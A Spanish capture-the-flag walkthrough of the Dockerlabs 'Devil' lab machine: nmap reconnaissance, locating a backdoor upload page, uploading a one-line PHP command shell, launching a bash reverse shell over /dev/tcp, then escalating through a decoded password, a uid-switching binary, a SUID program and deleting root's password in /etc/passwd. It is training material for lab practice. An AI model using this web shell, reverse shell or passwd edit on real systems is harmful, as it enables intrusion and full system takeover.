

# devil

Máquina "Devil" de [Dockerlabs](https://dockerlabs.es)

Autor: [kaikoperez](https://github.com/kiket25)

Dificultad: Medio


## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep 18 15:25:35 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-18 15:25:36 -03 for 15s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-generator: Drupal 10 (https://www.drupal.org)
|_http-title: Hackstry
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 18 15:25:51 2024 -- 1 IP address (1 host up) scanned in 15.43 seconds
```

Solo tenemos el puerto 80 abierto y `está corriendo apache httpd`, por lo que continuaremos desde el navegador.

**Puerto 80:**



Si nos fijamos al final, se nos nombra wordpress y en el propio codigo fuente hay cosas de wordpress, el problema es que si intentamos entrar a cualquier cosa relacionada con wordpress, nos va a redirigir a la misma página. Como sabemos, si intentamos entrar a alguna de eso nos redirige, pero... ¿que pasa si entramos a una carpeta en la que se indexe el contenido? como por ejemplo "wp-content/". Si vamos desde el navegador veremos una página en blanco, pero en wordpress siempre hay una carpeta uploads ahí, por lo que si nos metemos veremos una carpeta extraña llamada "esteestudirectorio", a la cual si entramos veremos una nota en morse que dice lo siguiente:

```css
MEJOR PRUEBA HA HACER FUZING PERO NO EN ESTE DIRECTORIO PRUEBA CON UN DIRECTORIO ATRAS.
```

Por lo que ahora recurriremos a `dirb` para hacer lo que nos dice la nota (fuzzing en wp-content):

```css
dirb http://172.17.0.2/wp-content/ -w
```

luego de que termine, veremos esto:

```css
---- Entering directory: http://172.17.0.2/wp-content/plugins/backdoor/ ----
+ http://172.17.0.2/wp-content/plugins/backdoor/index.php (CODE:200|SIZE:2135)                                                 
==> DIRECTORY: http://172.17.0.2/wp-content/plugins/backdoor/uploads/ 
```

Como vemos hay una carpeta "backdoor" en "./plugins/backdoor/" y tiene un index.php, por lo que si vemos desde el navegador, veremos lo siguiente:


## INTRUSION

Viendo que podemos subir archivos, y que hay una carpeta "uploads" en el mismo directorio, podemos subir un php malicioso que nos permita ejecutar comandos, por ejemplo yo uso este:

```php
<?php
system($_GET['command']);
?>
```

Este lo que va a hacer es que cuando lo subamos y entremos en el, podamos ejecutar comandos en la url poniendo esto:

```css
http://172.17.0.2/<snip>/backdoor/uploads/shell.php?command=<comando>
```

por lo que una vez subido vamos a el archivo.

Estando ahi escucharemos con netcat por el puerto que queramos `nc -nlvp <puerto>`, luego ponemos esto en la url:

```css
<snip>?command=bash -c 'bash -i >%26 /dev/tcp/<ip>/<puerto> 0>%261'
```

y ya estaremos dentro.

## ESCALADA DE PRIVILEGIOS

#### www-data

Hacemos un tratamiento de la tty y continuamos.

Ahora si vamos a `/home`, veremos que tenemos permisos de lectura en la home de andy. Ahora si ejecutamos `ls -Rla` en ese directorio, veremos lo siguiente:

```css
www-data@ad0c48cd34f2:/home$ ls -Rla andy/
andy/:
total 24
drwxr-xr-x 1 andy andy  154 Sep 11 23:00 .
drwxr-xr-x 1 root root   30 Sep 11 22:10 ..
-rwxr-xr-x 1 andy andy  491 Sep 18 20:25 .bash_history
-rwxr-xr-x 1 andy andy  220 Mar 31 10:41 .bash_logout
-rwxr-xr-x 1 andy andy 3771 Mar 31 10:41 .bashrc
-rwxr-xr-x 1 root root   13 Sep 11 23:00 .pista.txt
-rwxr-xr-x 1 andy andy  807 Mar 31 10:41 .profile
drwxr-xr-x 1 andy andy   38 Sep 11 22:33 .secret
-rwxr-xr-x 1 andy andy  867 Sep 11 22:31 .viminfo
drwxr-xr-x 1 root root   24 Sep 11 22:56 aquilatienes

andy/.secret:
total 20
drwxr-xr-x 1 andy andy    38 Sep 11 22:33 .
drwxr-xr-x 1 andy andy   154 Sep 11 23:00 ..
-rwxr-xr-x 1 andy andy   512 Sep 11 22:31 escalate.c
-rwxr-xr-x 1 andy andy 16176 Sep 11 22:33 ftpserver

andy/aquilatienes:
total 4
drwxr-xr-x 1 root root  24 Sep 11 22:56 .
drwxr-xr-x 1 andy andy 154 Sep 11 23:00 ..
-rwxr-xr-x 1 root root  73 Sep 11 22:55 password.txt
www-data@ad0c48cd34f2:/home$
```

Hay cosas interesantes:

`.pista.txt`

`/aquilatienes/password.txt`

`ftpserver`

`escalate.c`

Si leemos la pista y el password, veremos que nos dice que está en rot8000 (no pongo el password porque tiene un formato que no puedo copiar), por lo que si lo pasamos a texto, obtendremos esto:

```css
andy:laloca1
```

Por lo que ahora escalamos con `su andy` y su contraseña.

#### Andy

Si vamos a `.secret/` y leemos el "escalate.c", veremos que se fija nuestro uid y el de lucas y luego si coincide nos genera un bash, y si ejecutamos el otro script podremos a escalar a lucas:

```css
andy@ad0c48cd34f2:~/.secret$ ./ftpserver 
UID actual: 1001
EUID actual: 1001
lucas@ad0c48cd34f2:~/.secret$ 
```

#### Lucas

Siendo lucas, veremos que en su home hay una carpeta llamada ".game" y un archivo que tiene permisos SUID (porque está en rojo), y además el archivo .c que se usó para crearlo, el cual si leemos, nos genera una bash como root al poner el 7, por lo que lo ejecutamos y al poner un 7 escalaremos a root, pero el grupo sigue siendo andy, por lo que editamos con nano el `/etc/passwd` y borramos la "x" de root, y ahora seremos root totalmente:


Gracias por leer...
